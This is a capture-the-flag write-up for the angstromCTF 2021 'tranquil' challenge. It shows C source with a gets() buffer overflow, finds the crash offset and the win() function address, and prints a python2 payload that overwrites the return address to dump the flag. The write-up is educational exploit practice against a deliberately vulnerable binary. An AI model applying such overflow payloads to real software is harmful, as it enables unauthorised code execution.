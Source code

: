 # tranquil

## Challenge:

Finally, [inner
peace](https://files.actf.co/608874e08577f58044bd8dd1551a7b29c6945cfc58d7e1c35af1dc4e97213ab6/tranquil)
- Master Oogway

[Source](https://files.actf.co/597e7ea4afea0e1fb28cb58e8ebe82447ada05fab44dd480992c49dcb8c36ae8/tranquil.c)

## Solution:

We have a binary and our C source code:

```c  
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>

int win(){  
   char flag[128];  
   FILE *file = fopen("flag.txt","r");  
   if (!file) {  
       printf("Missing flag.txt. Contact an admin if you see this on remote.");  
       exit(1);  
   }  
   fgets(flag, 128, file);  
   puts(flag);  
}

int vuln(){  
   char password[64];  
   puts("Enter the secret word: ");  
   gets(&password);  
   if(strcmp(password, "password123") == 0){  
       puts("Logged in! The flag is somewhere else though...");  
   } else {  
       puts("Login failed!");  
   }  
   return 0;  
}

int main(){  
   setbuf(stdout, NULL);  
   setbuf(stderr, NULL);  
   vuln();  
   // not so easy for you!  
   // win();  
   return 0;  
}  
```

We’re given the password immediately, but it’s clear we need to get to the
`win()` function. We should be able to abuse `gets()` to jump to the proper
address.

We have a 64 character buffer. If we throw `A * 72` at it, we get a
segmentation fault:

```bash  
team8317@actf:/problems/2021/tranquil$ ./tranquil  
Enter the secret word:  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Login failed!  
Segmentation fault (core dumped)  
```

At `A * 74` we begin to rewrite the instruction pointer. At `(A * 72) + (B *
3)` we completely clobber it.

Now we need to discover where our `win()` function begins and rewrite RIP to
point to it.

We can use `readelf` to find the function:

```bash  
team8317@actf:/problems/2021/tranquil$ readelf -s tranquil | grep win  
   41: 0000000000401196   110 FUNC    GLOBAL DEFAULT   14 win  
```

And now we pass in the location as part of our exploit payload:

```bash  
team8317@actf:/problems/2021/tranquil$ python2 -c "print 'A'*71 + ';\x96\x11\x40'" | ./tranquil  
Enter the secret word:  
Login failed!  
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}

Segmentation fault (core dumped)  
```

And our flag is dumped along with the core:
`actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`.  

Original writeup (https://github.com/mcmahoniel/ctf_write-
ups/blob/main/2021/angstromctf/binary/tranquil/README.md).